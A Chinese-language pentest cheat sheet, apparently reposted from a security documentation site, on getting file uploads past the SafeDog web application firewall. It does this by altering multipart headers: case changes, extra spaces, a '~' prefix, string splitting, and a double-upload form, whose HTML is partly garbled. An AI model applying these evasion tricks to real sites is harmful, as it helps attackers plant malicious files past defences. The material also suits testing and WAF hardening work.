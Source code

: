 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.starpoc.vip](https://www.starpoc.vip/doc/537/)

> ## 上传绕过整理 ### WAF 绕过 #### 安全狗绕过 1. 绕过思路：对文件的内容，数据。数据包进行处理。 关键点在这里 Content-Disposit

上传绕过整理
------

### WAF 绕过

#### 安全狗绕过

1. 绕过思路：对文件的内容，数据。数据包进行处理。

```
关键点在这里Content-Disposition: form-data; 
将form-data;            修改为~form-data;

```

2. 通过替换大小写来进行绕过

```
Content-Disposition: form-data; 
Content-Type: application/octet-stream
将Content-Disposition    修改为content-Disposition
将 form-data            修改为Form-data
将 Content-Type         修改为content-Type

```

3. 通过删减空格来进行绕过

```
Content-Disposition: form-data; 
Content-Type: application/octet-stream
将Content-Disposition: form-data          冒号后面 增加或减少一个空格
将form-data; ;                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格

```

4. 通过字符串拼接绕过

```
看Content-Disposition: form-data; 
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata

```

5. 双文件上传绕过

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
multipart/form‐data">
<input >
<input >
<input type="submit" >
</form>

```
